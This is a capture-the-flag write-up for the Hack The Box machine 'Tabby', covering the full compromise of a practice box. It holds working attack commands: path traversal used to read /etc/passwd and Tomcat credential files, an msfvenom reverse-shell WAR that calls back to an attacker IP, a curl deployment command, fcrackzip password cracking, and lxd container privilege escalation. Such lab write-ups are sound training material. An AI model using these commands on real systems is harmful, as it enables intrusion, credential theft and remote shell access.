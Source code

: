```yaml
---
title: "[Writeup] Hack The Box: Tabby"
date: 2020-08-08T23:53:00+07:00
categories: [writeup]
tags: [writeup, walkthrough, htb, hackthebox]
---
```


Here's my writeup for **Tabby**, a Linux box on Hack The Box. This one is created by **egre55** and it is rated as *Easy*. The techniques required to clear **Tabby** are not complicated, but you need to connect the dots, using information/vulnerabilities from one component to gain access to other components.

![](/images/htb_tabby/info.png)

<!--more-->

**OS:** Linux  
**Difficulty:** Easy  
**Points:** 20  
**Release:** 20 Jun 2020  
**IP:** 10.10.10.194  
**Box Creator:** egre55  
**Date Cleared:** 5 Aug 2020

## TL;DR

- Use path traversal on the `file` variable of `http://10.10.10.194/news.php` to read a credential from `/usr/share/tomcat9/etc/tomcat-users.xml`
- Use the Tomcat credential found to deploy a war file through <http://10.10.10.194:8080/manager/text/deploy>
- Get a reverse shell through the uploaded war web app, and download an encrypted zip file inside `/var/www/html/files`
- Crack the zip password using `fcrackzip` and use that password to `su` to the user `ash`
- Use `lxc` to perform privilege escalation (<https://www.hackingarticles.in/lxd-privilege-escalation/>)

## Information Gathering

Starting with `nmap` scan, there are 3 ports available on the target: `ssh` on `22`, and two `http` servers on `80` and `8080`.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8080/tcp open  http    Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 - HTTP

The web server on port `80` has a website for **MEGA HOSTING**, a dedicated servers hosting service.

![](/images/htb_tabby/80_home.png)

There is a message mentioning that the company is *recovering from the data breach*, with a link to the statement for that.

I followed the link and it directed me to <http://megahosting.htb/news.php?file=statement>.

![](/images/htb_tabby/host_1.png)

I added the domain name with the IP address of the machine to the `hosts` file at `/etc/hosts` in order to access the page with the domain name. (Or you can just access the page directly without the domain name: <http://10.10.10.194/news.php>)

![](/images/htb_tabby/host_2.png)

The statement is just a simple text saying about the breach. The interesting part is the `file` parameter in the URL.

![](/images/htb_tabby/80_breach.png)

From the look of it, I guessed that `news.php` would get the file name from the `file` parameter and show the content of a file with that same name in a specific directory. I tried to do **path traversal** with `../../../../../` to traverse back to the root directory (`/`) and append the name of the file I wanted to read, and voila! I was able to read `/etc/passwd`.

![](/images/htb_tabby/80_traverse.png)

With this, I could read any arbitrary file *(with sufficient permission)* on the machine given the path, which would surely be useful for the further steps.

### 8080 - HTTP

The port `8080` is hosting **Apache Tomcat**. The home page is a default page with the information on the paths where the components are located at. It also tells that there are the `manager` and `host-manager` web apps available.

![](/images/htb_tabby/8080_tomcat.png)

I tried to log in to both `manager` and `host-manager` using the default passwords, but failed.

![](/images/htb_tabby/8080_manager.png)

![](/images/htb_tabby/8080_hostmanager.png)

However, we do have the ability to read any file on the machine, so why don't we just go ahead and read the config file for Tomcat?

## Gaining Access

With the knowledge of the installation paths from the home page, I searched for the default location of the config file containing the credentials for Tomcat manager. I looked through many paths until I found the package structure of Tomcat 9 from <https://packages.debian.org/sid/all/tomcat9/filelist>.

With that, using the `news.php` from port `80`, I found the credential `tomcat:$3cureP4s5w0rd123!` by accessing <http://megahosting.htb/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml>

![](/images/htb_tabby/80_tomcatpass.png)

I was able to log in to the `host-manager` web app.

![](/images/htb_tabby/8080_hostmanager_success.png)

Unfortunately, I couldn't access the `manager` web app which I needed to deploy a **reverse shell** web app. The reason is that the `tomcat` user does not have the `manager-gui` which is required for accessing the page.

![](/images/htb_tabby/8080_manager_denied.png)

It does, however, have the `manager-script` role, which according to the Tomcat 9 Doc (<https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html>), can use the plaintext interface of the `manager` web app. Therefore, I could deploy a new web app through <http://10.10.10.194:8080/manager/text/deploy>.

![](/images/htb_tabby/tomcat9_doc.png)

I created a reverse shell web app `war` file using the command `msfvenom -p java/jsp_shell_reverse_tcp -f war LHOST=10.10.16.12 LPORT=443 -o rev.war`

![](/images/htb_tabby/reverse_war.png)

I then deployed it to the server with `curl --upload-file rev.war 'http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/rev'`

![](/images/htb_tabby/deploy.png)

With the web app deployed, I could get the reverse shell by opening a listener and access my reverse shell web app at <http://10.10.10.194:8080/rev/>

![](/images/htb_tabby/rev.png)

Spawned a pty with `python3`.

![](/images/htb_tabby/pty.png)

With the shell, I found an interesting zip file in `/var/www/html/files`, so I downloaded it to my machine.

![](/images/htb_tabby/backup.png)

I tried to unzip it and found that the zip is encrypted.

![](/images/htb_tabby/encrypted.png)

With `fcrackzip`, I went for a dictionary attack on the zip file with a common wordlist `rockyou.txt`, and found the password `admin@it`.

`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip`

![](/images/htb_tabby/fcrackzip.png)

With the right password, I was able to unzip and view the files. However, nothing interesting was found in any of the files.

![](/images/htb_tabby/unzip.png)

From the `/home` directory of the target machine, we can see that there is a user named `ash`.

![](/images/htb_tabby/home.png)

I was able to log in successfully with the password of the zip file, and got the user flag.

![](/images/htb_tabby/user.png)

## Privilege Escalation

The user `ash` is in the `lxd` group, which could be used to deploy a new container.

> LXD is a next generation system container manager. It offers a user experience similar to virtual machines but using Linux containers instead.
> &mdash; <https://linuxcontainers.org/lxd/introduction/>

With that permission, I found a blog (<https://www.hackingarticles.in/lxd-privilege-escalation/>) describing a trick that can be used to escalate the privilege by mounting the **root directory** (`/`) to a container in order to access the files with higher privilege.

I built an image using a script from <https://github.com/saghul/lxd-alpine-builder> and uploaded it to the target machine.

![](/images/htb_tabby/lxc_1.png)

Following the instructions from the blog, I imported the uploaded image, created a container named escalate, mounted the root directory to the container, and started it.

```sh
lxc image import alpine-v3.12-x86_64-20200804_2346.tar.gz --alias alpine
lxc init alpine escalate -c security.privileged=true
lxc config device add escalate whatever disk source=/ path=/mnt/root recursive=true
lxc start escalate
```

![](/images/htb_tabby/lxc_2.png)

I then executed `sh` on the container and got access to all files on the machine, including the root flag.

```
lxc exec escalate sh
cat /mnt/root/root/root.txt
```